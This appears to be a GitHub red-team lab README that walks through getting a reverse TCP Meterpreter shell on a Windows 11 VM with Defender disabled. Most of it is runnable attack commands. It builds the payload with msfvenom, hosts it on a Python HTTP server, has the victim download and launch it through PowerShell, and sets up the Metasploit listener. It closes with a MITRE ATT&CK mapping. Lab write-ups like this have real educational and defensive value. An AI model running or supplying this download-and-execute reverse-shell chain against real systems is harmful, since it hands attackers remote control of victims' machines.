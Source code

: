 #  Red Team – Reverse TCP Shell

## Objective

Establish a reverse TCP Meterpreter shell on a Windows 11 VM using Metasploit.\
Note: For the Lab Windows Defender was disabled

---

## Toolset

- **Metasploit Framework**
- **msfvenom**
- **PowerShell**
- **Python HTTP Server**

---

## Payload Creation  
**(For Educational Purposes Only)**

Payload: reverse TCP Meterpreter\
Target: 64-bit Windows\
Format: .exe

bash (attacker):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.81 LPORT=4444 -f exe -o revshell.exe
```

Delivery via PowerShell\
Host the payload on a web server:

bash (attacker):
```bash
python3 -m http.server 8080
````
Fetch and execute on the Windows target:

Powershell (victim):
````powershell
Invoke-WebRequest http://192.168.1.81:8080/revshell.exe -OutFile revshell.exe
Start-Process revshell.exe
````
Listener Setup

bash(attacker):
````bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.81
set lport 4444
exploit -j
````
Results:
A Meterpreter session was successfully established on the attacker's system after execution.

MITRE ATT&CK Mapping

| Technique	           |  ID           |
| -------------------- | ------------- |
| PowerShell Execution |  T1059.001    |
| Obfuscation          |  T1027        |
| Common Ports         |  T1043        |
       
